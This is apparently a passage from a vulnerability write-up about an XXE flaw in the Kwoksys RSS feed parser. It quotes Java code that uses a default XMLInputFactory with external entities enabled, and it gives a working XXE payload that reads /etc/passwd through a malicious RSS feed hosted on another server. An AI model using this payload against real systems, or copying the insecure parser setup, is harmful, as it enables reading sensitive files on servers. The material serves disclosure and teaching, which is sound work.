 Now that we know that the default implementation for new instances of XMLInputFactory has support for external entities enabled. Let's review the Kwoksys source once again.

```java
public void xmlToModel(String xmlString) throws Exception {
    this.xmlString = xmlString;
    this.rssModel = new RssModel();
    StringReader reader = new StringReader(xmlString);
    XMLStreamReader parser = XMLInputFactory.newInstance().createXMLStreamReader(reader);
    StAXOMBuilder stAXOMBuilder = OMXMLBuilderFactory.createStAXOMBuilder(OMAbstractFactory.getOMFactory(), parser);
    OMElement rss = stAXOMBuilder.getDocumentElement();
    OMElement channel = rss.getFirstElement();
    buildChannel(channel);
  }
```

After reviewing the code - there is no manual configuration of the **IS_SUPPORTING_EXTERNAL_ENTITIES** property. As such - the XMLInputFactory will use its default configuration which support external entities. This parser should be vulnerable to XXE.

<hr>

## **Exploitation**

The following XXE payload can be used to confirm our theory
```xml
<!DOCTYPE title [ <!ELEMENT title ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd">]>
        <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
        <channel>
            <title>Evil Blog</title>
            <link>http://example.com/</link>
            <description>A blog about things</description>
            <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
            <item>
                <title>&xxe;</title>
                <link>http://example.com</link>
                <description>a post</description>
                <author>author@example.com</author>
                <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
            </item>
        </channel>
        </rss>
```

If the parser is vulnerable, it will attempt to resolve the external entity "xxe" declared above. Since the external entity points to "file:///etc/passwd", the parser should include the content of the system's /etc/passwd file within the &xxe reference contained in the title tag.

First, we host our malicious xml file on another server:
![Image](/images/2022-11-12-kwoksys-xxe/Pasted image 20221112135504.png)

From within Kwoksys, we add a new RSS feed pointing to our web server
![Image](/images/2022-11-12-kwoksys-xxe/Pasted image 20221112135615.png)
